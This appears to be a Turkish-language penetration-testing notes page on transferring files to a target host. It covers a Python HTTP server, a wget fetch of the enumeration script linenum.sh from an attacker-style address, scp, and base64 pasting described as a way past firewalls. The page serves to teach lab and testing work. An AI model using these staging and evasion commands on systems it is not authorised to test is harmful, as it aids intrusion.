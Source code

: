 ```yaml
---
icon: material/circle-small
---
```


# Transferring Files

## Using wget

Öncelikle aktarmamız gereken dosyayı içeren dizin içinde bir Python HTTP sunucusu çalıştırıyoruz:

```bash
cd /tmp && python3 -m http.server 8000
```

Artık dosyayı indirebiliriz:

```bash
wget http://10.10.14.1:8000/linenum.sh
```

## Using SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh
```

## Using Base64

Bazı durumlarda uzak bilgisayar dosya indirmemizi engelleyen güvenlik duvarı korumalarına sahip olabilir. Bu tür bir durumda dosyayı Base64 biçiminde kodlarız:

```bash
base64 file -w 0
```

Ardından Base64 dizesini uzak sunucuya yapıştırırız, kodunu çözeriz ve çıktıyı, bir dosyaya aktarırız:

```bash
echo 'I2luY2x1ZGUgPHN0ZGlvLmg+CgppbnQgbWFpbigpewoJcHJpbnRmKCJoZWxsbywgd29ybGRcbiIpOwoJcmV0dXJuIDA7Cn0K' | base64 -d > file
```
